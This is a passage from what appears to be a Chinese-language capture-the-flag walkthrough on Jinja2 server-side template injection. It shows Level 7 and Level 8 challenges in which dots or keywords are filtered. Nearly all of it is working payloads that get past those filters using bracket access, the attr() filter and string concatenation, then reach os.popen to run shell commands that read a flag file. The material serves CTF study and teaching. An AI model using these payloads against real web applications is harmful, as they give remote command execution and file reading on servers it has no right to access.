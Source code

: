 -----

## Level 7 - 过滤点号 `.` (['.'])

如果点号 `.` 被过滤，可以使用中括号 `[]` 访问属性/字典键，或者使用 `attr()` 过滤器。

1.  **`[]` 绕过:**

    ```jinja
    {{()['__class__']['__base__']['__subclasses__']()['__getitem__'](258)['__init__']['__globals__']['__getitem__']('os')['popen']('cat flag')['read']()}}
    ```

2.  **`attr()` 绕过:**

    ```jinja
    {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(258) | attr('__init__') | attr('__globals__') | attr('__getitem__')('os') | attr('popen')('cat flag') | attr('read')() }}
    ```

**直接使用模板语法注入 (使用 `[]` 替代 `.`):**

```jinja
{% for x in []['__class__']['__base__']['__base__']['__subclasses__']() %}
{% if x['__init__'] is defined and x['__init__']['__globals__'] is defined and 'popen' in x['__init__']['__globals__'] %}
{{ x['__init__']['__globals__']['popen']('cat /app/flag')['read']() }}
{% endif %}
{% endfor %}
```

![['.'] 1](./images/ssti11.png)

-----

## Level 8 - 过滤关键字 (["class", "arg", "form", ...])

如果过滤了大量的关键字，如 `class`, `request`, `init`, `globals`, `popen`, `mro`, `base`, `attr` 等，可以尝试使用字符串拼接来绕过。

```jinja
{{ ()["__cla"+"ss__"]["__ba"+"se__"]["__ba"+"se__"]["__subcl"+"asses__"]()[133]["__in"+"it__"]["__glob"+"als__"]["po"+"pen"]("cat /app/flag")["re"+"ad"]() }}
```
